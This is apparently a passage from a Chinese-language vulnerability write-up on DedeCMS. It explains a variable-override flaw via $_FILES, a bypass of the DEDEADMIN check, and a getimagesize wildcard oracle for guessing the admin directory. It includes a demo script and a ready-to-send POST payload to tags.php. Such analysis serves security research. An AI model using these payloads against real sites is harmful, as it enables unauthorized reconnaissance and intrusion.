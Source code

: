 ```
    if (!is_array($image_dd))
    {
        exit('Upload filetype not allow !');
    }
}
...... 
```

注意$$_key这一句，变量$key取自于$_FILE，由于$*FILE可控自然$key也可控,此处理论上是可以覆盖任意变量，但是前面有个正则判断不能出现cfg*|GLOBALS。(但是应该还可以覆盖其他变量此处感觉还可以深挖)

本人出发点是找个可以利用<<通配符猜解后台目录，所以只要$$_key参数可控就可以达到目的。

但在这之前有个if(!defined('DEDEADMIN'))的判断,这个很好绕过设置tmp_name为0或者1.jpg含. 就可以绕过。

最后关键的一点就是要让文件存在还和不存在返回不同的内容就要控制type参数了。

当目录文件存在的时候 返回正常页面。当不存在的时候返回：Upload filetype not allow !

举个例子

```
<?php
// ./dedecms/favicon.ico
if(@getimagesize($_GET['poc'])){
    echo 1;
}else {
    echo 0;
}
?>
get:
http://localhost/test.php?poc=./d</favicon.ico
返回：1

[http://localhost/test.php?poc=./a](http://localhost/test.php?poc=./a)</favicon.ico

返回：0

[http://localhost/test.php?poc=./de](http://localhost/test.php?poc=./de)</favicon.ico

返回：1

[http://localhost/test.php?poc=./ded](http://localhost/test.php?poc=./ded)</favicon.ico

返回：1 `…` 
```

### 复现

构造poc

```
http://0-sec.org/tags.php

post: `dopost=save&_FILES[b4dboy][tmp_name]=./d../img/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif` 
```
